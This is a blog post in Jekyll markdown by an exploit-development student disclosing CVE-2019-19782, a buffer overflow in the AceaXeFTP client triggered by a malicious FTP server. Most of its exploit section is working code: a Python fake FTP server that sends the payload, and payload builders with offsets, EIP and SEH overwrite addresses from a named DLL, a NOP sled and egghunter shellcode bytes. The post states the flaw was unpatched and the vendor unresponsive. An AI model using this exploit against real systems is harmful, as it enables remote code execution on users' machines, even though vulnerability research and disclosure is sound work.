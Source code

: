 ```yaml
---
layout: post
title: "RCE via Buffer Overflow - AceaXeFTP"
categories: CVE_Research
---
```


**RCE via Buffer Overflow - AceaXeFTP**{: style="color: greenyellow"}

# Summary:
It's Possible to trigger a buffer overflow, in AceaXeFTP client, by hosting a malicious ftp server and sending malicious responses to the client.

# Bin info:
Name: AceaXe +
Homepage: http://www.labf.com/aceaxeplus/index.html

# Proof of Concept (PoC):

Studying to take the OSCE exam, i was simply fascinated by the Exploit dev topic, ASLR Bypass and SEH based exploits, was something that i needed to see in the internet jungle.
&nbsp;

Doing the exercises, i was able to successfuly exploit one of the examples. So, i thought "Yeah, it's time to find a really old software that i could run in a windows vista and try to find some AAAA shenanigans", and that's what i did, got first a windows xp and windows vista vm running and the AceaXe software bundle installed.
&nbsp;

At first, as i was really confortable with the basics of exploit dev, because of the OSCP background, i tried finding something in the windows xp, as it would not have ASLR nor DEP, so it would be easy to exploit. 
&nbsp;

As i was researching i found a lot of PoCs of ftp clients that got exploited by sending the response of the ftp commands with the exploit code. so, after some hours of trying a lot of gui overflows and file sizes oveflows, I finnally tried creating my own fake FTP server in python and sending the famous EHLO response with a giant string &afterwords, and it worked, EIP was finnaly overwritten by the AAAAs ! 
&nbsp;

# Finnally ! Time to exploit (winXP version):

The concept was easy. Create a simple socket listening to port 21, that sends the string after the client connects to it.

&nbsp;
{% highlight python %}


port = 21                   
s = socket.socket()
host = '0.0.0.0'              
try:
	s.bind((host, port))            
	s.listen(5)                     
	print ('[+] Ouvindo na porta 21.')
except:
	print ('[-] Problemas no socket, veja se a porta 21 ja esta sendo utilizada')
while True:
 	try:
	    conn, addr = s.accept()
	    print ('[+] Envindo o payload')     
	    conn.send(dadosenviados)
	    conn.close()
	    print ('[+] Payload enviado com sucesso')
	except:
		print ('[-] Tivemos um prolema, veja se tudo foi settado corretamente')
		
{% endhighlight %}
&nbsp;

So, after Creating a FTP server I was able to send the malicious Buffer, to exploit this vulnerability. and after doing all the steps needed to create the simple buffer overflow i was able to retrieve a Command shell on the machine
&nbsp;
By sending the following payload, i was able to take control of the EIP 

&nbsp;
{% highlight python %}

jmpesp = "\x96\x72\x01\x68"
lixo = "\x41"*2061
nopsled = "\x90"*20
eip = '\x6F\x4A\x08\x68'

payload = lixo+eip+jmpesp+nopsled+shellcode+nopsled     

dadosenviados = '220'+payload+'\r\n'

{% endhighlight %}
&nbsp;

So, nothing new there, just a classic default buffer overflow, but i was so happy that i have found it haha. It was time to exploit it in windows vista, to smack some windows ASLRs. 
&nbsp;
I exploited it using a SEH based Buffer overflow, and by using the egghunter technique.
&nbsp;
the Code used to exploit it was:

&nbsp;
{% highlight python %}


lixo1 = "\x41"*100
lixo2 = "D" * (9266-len(shellcode))
lixo3 = "C" * 576
nopsled = "\x90"*20


egghunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
egghunter += "\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

egg = "w00tw00t"

nseh = "\x90\x90\xEB\x05" 
seh = "\xF8\x54\x01\x68" #POP POP RET 680154F8 in WCMDPA10.DLL

payload = lixo1 + egg + nopsled + shellcode + lixo2 + nseh + seh + egghunter + lixo3


dadosenviados = '220'+payload+'\r\n'

{% endhighlight %}
&nbsp;
The vulnerability is, by this time (dez/2019), working. 
&nbsp;
I tried contact with the vendor, but didn\`t received any response.
&nbsp;
And there are several other vulnerabilities to exploit in this software, so if you guys want some study material. this one is recommended.
&nbsp;

#CVE

CVE-2019-19782

